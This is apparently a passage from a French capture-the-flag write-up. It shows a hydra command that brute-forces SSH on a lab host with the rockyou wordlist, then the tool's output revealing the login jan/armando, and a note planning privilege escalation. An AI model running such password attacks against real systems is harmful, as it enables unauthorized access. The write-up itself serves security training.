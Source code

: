 hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.42.222 >> Rapport.md 

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-07-12 10:30:58
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.42.222:22/
[STATUS] 146.00 tries/min, 146 tries in 00:01h, 14344256 to do in 1637:29h, 13 active
[STATUS] 113.00 tries/min, 339 tries in 00:03h, 14344063 to do in 2115:39h, 13 active
[STATUS] 95.14 tries/min, 666 tries in 00:07h, 14343736 to do in 2512:40h, 13 active
[22][ssh] host: 10.10.42.222   <code style="color : green">login: jan   password: armando</code>
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 3 final worker threads did not complete until end.
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-07-12 10:38:58

Heureusement pour moi hydra a planté après avoir découvert le mot de passe de jan. Nous allons pouvoir accéder au système en utilisant le protocole SSH et tenter de trouver une solution pour obtenir plus de droit
